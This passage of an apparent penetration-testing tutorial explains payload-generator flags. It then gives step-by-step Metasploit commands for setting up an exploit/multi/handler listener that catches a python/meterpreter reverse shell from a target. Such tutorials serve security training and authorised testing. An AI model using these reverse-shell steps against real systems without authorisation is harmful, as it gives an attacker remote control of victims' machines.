 
#### Flags

`-p`: Specifies the payload to use.

`LHOST`: The local host (IP address) that will listen for the reverse shell connection from the target.

`LPORT`: The local port on which the reverse shell connection will be received.

`-f`: Specifies the format of the payload.

`-o`: Defines the output file where the generated payload will be saved.

---

#### Listen the connection

To listen for the incoming reverse shell connection, we will use **`msfconsole`** and the **`exploit/multi/handler`** module.

1. **Open `msfconsole`**:
	First, open the **Metasploit console** by typing:
	```bash
	msfconsole
	```

2. **Use the `exploit/multi/handler` module**:
	This module is used to handle incoming reverse connections from payloads like the reverse shell we created earlier.
	```bash
	use exploit/multi/handler
	```

3. **Set the payload**:
	Specify the same payload used to generate the reverse shell. If we used **`python/meterpreter/reverse_tcp`** earlier, we set it here as well:
	```bash
	set PAYLOAD python/meterpreter/reverse_tcp
	```

4. **Set the listener IP (`LHOST`)**:
	Set **`LHOST`** to the IP address of your machine where you'll be receiving the reverse connection.
	```bash
	set LHOST <your IP>
	```

5. **Set the listener port (`LPORT`)**:
	Set **`LPORT`** to the port where the reverse connection will be received (same as the one used when generating the payload).
	```bash
	set LPORT <your listening port>
	```

6. **Start the handler**:
	Finally, run the handler to start listening for incoming connections:
	```bash
	run
	```
